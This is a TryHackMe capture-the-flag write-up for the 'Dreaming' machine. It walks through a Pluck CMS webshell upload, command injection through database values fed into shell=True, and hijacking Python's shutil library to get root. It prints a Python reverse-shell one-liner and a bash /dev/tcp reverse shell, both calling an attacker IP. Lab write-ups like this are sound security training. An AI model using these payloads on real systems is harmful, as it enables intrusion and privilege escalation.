 ```yaml
---
title: Dreaming (THM)
description: Write-up of Dreaming Machine 
date: 2023-05-01 09:00:00 -3000
categories: [tryhackme]
tags: [tryhackme, thm, writeup, easy, machine, linux, code-injection, path-manipulation]
author: trace
---
```

## Reconnaissance

we start with the nmap scan and see the following ports which are open

![[nmapscan.png]](https://i.imgur.com/CpHTNiT.png)

nothing too interesting for now so we run directory bruteforce in order to find something

![[gobuster.png]](https://i.imgur.com/oaDZmeC.png)

and as you can see we do get to see something interesting here `/app` seems kinda interesting to me so we visit that web directory

and it's the pluck cms version 4.7.13

![[pluck.png]](https://i.imgur.com/LpbN4Mp.png)

further we see it asks for the password and upon trying some default creds `password` was the right password so we get a login successful on this

from here on i further start to enumerate this cms and looking for the exploit for this specific version and exploitDB fortunately has one 

![[exploit.png]](https://i.imgur.com/pg1ayL3.png)

so we prepare the payload and run the exploit on this vulnerable cms
and it successfully upload the webshell, 

![[uploadedwebshell.png]](https://i.imgur.com/vu2YwiC.png)

## Foothold (User1)

So upon visiting that webshell we get a revshell to our machine of that webshell and get the `www-user`

![[Screenshot_2023-11-24_15-12-51.png]](https://i.imgur.com/DivQXpN.png)

and now we look for low hanging fruits and potential to get a user so we could get our first flag
and after quite a while of doing some manual enumeration, we find lucien password found **/opt/test.py** 
and can login into SSH with it and get our first flag

![[lucianuser.png]](https://i.imgur.com/h8BTpHk.png)


## Foothold (User2)

from the past enumeration i saw one more script in the `/opt` directory which was owned user `death`.
and lucian can execute  `getDreams.py`  as death user without a password, but we cannot read it.

![[privescloop1.png]](https://i.imgur.com/BjX0bQ3.png)

so now comes the code reviewing part lol which was super easy here we see a mysql connection, but the credentials are redacted

````python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
````

So it goes like: 
1. **MySQL Credentials:** The code defines three variables, `DB_USER`, `DB_PASS`, and `DB_NAME`, to store the MySQL credentials. These credentials are used to connect to the MySQL database.
    
2. `getDreams()` Function: The `getDreams()` function is the main part of the code. It handles the process of connecting to the MySQL database, fetching data from the `dreams` table, and echoing the dreamer and dream information to the console.
    
    a. **Connecting to MySQL:** The `try-except-finally` block is used to handle any errors that might occur during the database connection or query execution. The `connect()` method of the `mysql.connector` library is used to establish a connection to the MySQL database using the provided credentials.
    
    b. **Executing SQL Query:** A cursor object is created using the `connection.cursor()` method. This cursor object is used to execute SQL queries against the database. The `query` variable contains the SQL query to fetch the `dreamer` and `dream` columns from the `dreams` table. The `cursor.execute(query)` method is used to execute the query.
    
    c. **Fetching Dreamer and Dream Information:** The `cursor.fetchall()` method is used to fetch all the rows from the result set of the executed query. Each row contains a tuple of the `dreamer` and `dream` values.
    
    d. **Echoing Dreamer and Dream Information:** If there are no dreams found in the database, an error message is printed. Otherwise, the code loops through the fetched dream information and constructs a command using the `subprocess` library. The command is used to echo the dreamer and dream information to the console.
    
    e. **Closing Cursor and Connection:** Finally, the cursor and connection objects are closed using the `cursor.close()` and `connection.close()` methods, respectively. This ensures that the connection resources are properly released.
    
3. **Calling `getDreams()` Function:** The `getDreams()` function is called at the end of the code to execute the process of fetching and echoing dream information.
   
so we can clearly see command execution happening here

````python
command = f"echo {dreamer} + {dream}"
````

the variables `dreamer` and `dream` come from the mysql connection, so we need to connect to it someway.
now we do more enumeration and finally i see the .bash_history was getting refferred to `/dev/null` so we can read the .bash_histroy
and you can clearly see that is here where the information from getDreams are being retrieved.

![[lucianpass.png]](https://i.imgur.com/fsPFgth.png)
since lucien can insert into table “dreams”, we can insert a payload to get us a reverse shell.

so we create a bash script file that returns a python reverse shell to be executed 
````python
export RHOST="10.9.142.204";export RPORT=7777;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
````

so now what we do is inset into `dreams` table the python payload we have created  
![[valuesinserted.png]](https://i.imgur.com/I8BSWuI.png)
and execute `getDreams.py` as death user to get a reverseshell as `death` user.

````bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
````

and We get the `death` user

![[Screenshot_2023-11-24_16-39-48.png]](https://i.imgur.com/mHoEh4E.png)

now enuemating `morpheus` user's directory we see quite a few interesting things

![[morpheushome.png]](https://i.imgur.com/Burg34H.png)

## Root (User3)

so once i cat that script we can see it is import shutil from somewhere

````bash
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
````

so now we try to grep the `shutil` and we find it here `/usr/lib/python3.8/shutil.py `
reviewing the code and checking for perms we can see it is ran as morpheus user which is our last and final user(root). and we have edit permissions to it

so we put our reverse shell in the `shutil.py`

```python
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.9.142.204/7777 0>&1'\")" > /usr/lib/python3.8/shutil.py
````

And we get the shell after few seconds

![[root.png]](https://i.imgur.com/4hkOVm1.png)

![[rootflag.png]](https://i.imgur.com/hNzfGe3.png)
